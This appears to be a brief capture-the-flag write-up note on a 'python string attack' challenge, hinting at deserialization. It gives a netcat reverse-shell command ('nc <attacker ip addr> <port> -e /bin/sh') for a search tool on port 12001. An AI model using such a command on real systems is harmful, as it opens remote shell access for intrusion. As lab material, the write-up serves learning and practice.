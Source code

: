 # python string attack

hint: deserialization

- it turns out that we can reverse shell in 12001(bocchi search tool)
```ps
nc  <attacker ip addr> <port> -e /bin/sh
```